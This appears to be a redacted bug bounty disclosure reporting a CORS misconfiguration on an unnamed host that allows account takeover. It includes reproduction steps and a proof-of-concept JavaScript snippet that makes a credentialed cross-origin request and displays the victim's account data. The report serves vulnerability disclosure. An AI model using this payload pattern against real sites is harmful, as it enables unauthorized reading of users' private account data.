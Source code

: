 Account takeover via CORS


Hi,


## Summary

The following host suffer to a CORS (Cross Origin Resource Sharing) misconfiguration.

xxx.xxxxxxxxxxx.xxx


## Description

Since the header `Access-Control-Allow-Credentials` is set to `true` and since the header `Access-Control-Allow-Origin` in the HTTP response reflects the header `Origin` in the HTTP request, it's possible for a malicious page to trick it to allow this remote website to access customers datas and perform unauthorized actions.  
All actions available in the API to be exact like xxxxxxxxxxxxxxxxxxxxxx and so on, a full CRUD access to the account.


## Steps to Reproduce

1/ login your account here:
`https://xxx.xxxxxxxxxxxxxx.xxx`  
2/ add something in your cart, like a domain  
3/ Open a new tab in your browser and visit this url:
`http://poc.xxxxxxxxxxxx.xxx/poc/xxxxxxxxxxx.html`

Your personnal infos must be displayed. 


## PoC

{}

__Script__
```
<script type="text/javascript">
  function cors() {
  var xhttp = new XMLHttpRequest();

  xhttp.onreadystatechange = function() {
    //if (this.readyState == 4 && this.status == 200) {
    document.getElementById("demo").innerHTML = this.responseText;
    //}
  };

  xhttp.open("GET", "https://xxx.xxxxxxxxxxx.xxx/api/xxxxx", true);
  xhttp.withCredentials = true;
  xhttp.send();
}

cors();
</script>
```


## See also

https://www.owasp.org/index.php/CORS_OriginHeaderScrutiny  
http://blog.portswigger.net/2016/10/exploiting-cors-misconfigurations-for.html  
https://www.cynet.com/wp-content/uploads/2016/12/Blog-Post-BugSec-Cynet-Facebook-Originull.pdf  




Best regards,

Gwen

